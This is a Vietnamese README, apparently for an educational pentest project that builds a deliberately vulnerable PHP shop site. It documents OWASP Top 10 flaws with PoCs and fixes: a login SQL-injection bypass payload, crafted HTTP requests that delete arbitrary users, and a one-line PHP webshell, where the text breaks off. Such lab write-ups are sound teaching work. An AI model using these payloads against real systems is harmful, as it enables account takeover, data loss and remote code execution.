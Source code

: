 # Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQLi)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE)** | Upload file `.php` gây RCE. | `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<strong>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary>🛑<strong> A01:2021 - Broken Access Control - Xóa Bất Kỳ User</strong></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  
---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```
POST /web_pen_v1/profile/updateEmail HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

csrf_token=&email=son%40testa01.com
```
#### 📌 4. Chỉnh sửa request:
-Đổi URL /profile/updateEmail thành /profile/deleteUser.
-Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 6 là neovim).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 6):
```
POST /web_pen_v1/profile/deleteUser HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/web_pen_v1/profile
Cookie: PHPSESSID=bbq2e7f3trj6afj73sq4jru0t5
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user_id=6
```
#### ✅ 5. Gửi request.
- Nếu lỗ hổng tồn tại, tài khoản có id=6 sẽ bị xóa mà không cần quyền admin.
- Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
- 📸 Ảnh Chụp Màn Hình (PoC Visuals)
	
| Step | Description | Images |
|---|---|---|
| **1** | *Database chứa thông tin user trước khi bị xóa.* | ![Database](screenshots/database.png) |
| **2** | *Mã nguồn có lỗ hổng trong hàm `deleteUser()` không kiểm tra quyền.* | ![Code](screenshots/a1-deleteUser.png) |
| **3** | *Chặn request cập nhật email bằng Burp Suite để thay đổi thành xóa user.* | ![Update + Capture](screenshots/a1-0.png) |
| **4** | *Payload thay đổi request từ update email sang delete user.* | ![Payload](screenshots/a1-1.png) |
| **5** | *Tài khoản đã bị xóa thành công sau khi gửi request.* | ![Result](screenshots/a1-3result.png) |



#### 🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 
<details>  
  <summary>🛑<strong> A08:2021 - Software and Data Integrity Failures (RCE) - Upload Webshell</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép thực thi mã từ xa (RCE) trên server.  
- **Hệ lụy**:  
  - Kẻ tấn công có thể tải lên và thực thi mã độc.  
  - Có thể truy cập trái phép vào hệ thống file của server.  
  - Mở đường cho tấn công leo thang đặc quyền hoặc pivoting sang các hệ thống khác.  

---

## 📌 Phát Hiện Chung  
- Chức năng **Upload Avatar** tại `/profile` **không kiểm tra kỹ loại file tải lên**.  
- Ứng dụng **chỉ kiểm tra phần mở rộng (extension)**, nhưng kẻ tấn công có thể bypass bằng cách đổi **header request**.  
- Nếu file `.php` được upload thành công, kẻ tấn công có thể **thực thi lệnh trên máy chủ từ xa**.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Kiểm tra chức năng upload với file hình ảnh hợp lệ.  
- Upload một file `.png` để kiểm tra đường dẫn lưu trữ trên server.  
- Quan sát thấy file được lưu vào thư mục `/web_pen_v1/public/uploads/`.  

---

### 📌 2. Tạo Webshell với payload PHP  
Tạo file **`pls.php`** với nội dung:  

```php
<?php echo system($_GET['command']); ?>
```
